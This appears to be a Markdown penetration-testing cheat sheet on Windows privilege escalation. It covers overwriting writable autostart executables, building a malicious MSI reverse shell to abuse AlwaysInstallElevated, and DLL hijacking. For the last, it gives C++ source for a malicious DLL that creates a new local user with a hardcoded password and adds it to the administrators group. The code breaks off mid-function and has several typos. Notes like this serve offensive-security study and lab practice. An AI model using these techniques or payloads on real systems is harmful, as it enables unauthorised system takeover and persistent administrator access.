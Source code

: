 ### Autostart exploit

1. Find autostart executables

```powershell

Get-CimInstance -ClassName Win32_StartupCommand | Select-Object -Property Command, Description, User, Location

```

OR via cmd registry

```cmd
reg query HKLM\SOFTWARE\Microsoft\Windows\CurrentVersion\Run 

```

2. Check if they are writeable

```cmd
accesschk.exe /accepteula -wvu "PATH/to/prog.exe"

icacls <Path>
#look for (F/M/W) as full access

```

or powershell

```powershell

Get-ChildItem C:\temp\ -Recurse | Get-Acl
# now look for Everyone
```

3. Overwrite the original executable and wait for shell at system restart

### Exploiting .msi with AlwaysInstallElevated

1. Detect
`winpeas.exe  quite windowscreds`

2. If `AlwaysInstallElevated set to 1 in HKLM or HKCU!` then it is exploitable

3. create malicious msi rev shell `-f msi` and execute it on victim

## DLL hijacking

1. Identify missing DLL using procmon
2. crorss-compile malicious dll and place in working folder

```cpp
// x86_64-w64-mingw32-gcc myDLL.cpp --shared -o myDLL.dll

#include <stdlib.h>
#include <windows.h>

BOOL APIENTRY DllMain(
HANDLE hModule,// Handle to DLL module
DWORD ul_reason_for_call,// Reason for calling function
LPVOID lpReserved ) // Reserved
{
    switch ( ul_reason_for_call )
    {
        case DLL_PROCESS_ATTACH: // A process is loading the DLL.
        int i;
  	    i = system ("net user dave2 password123! /add");
  	    i = system ("net localgroup administrators dave2 /add");
        break;
```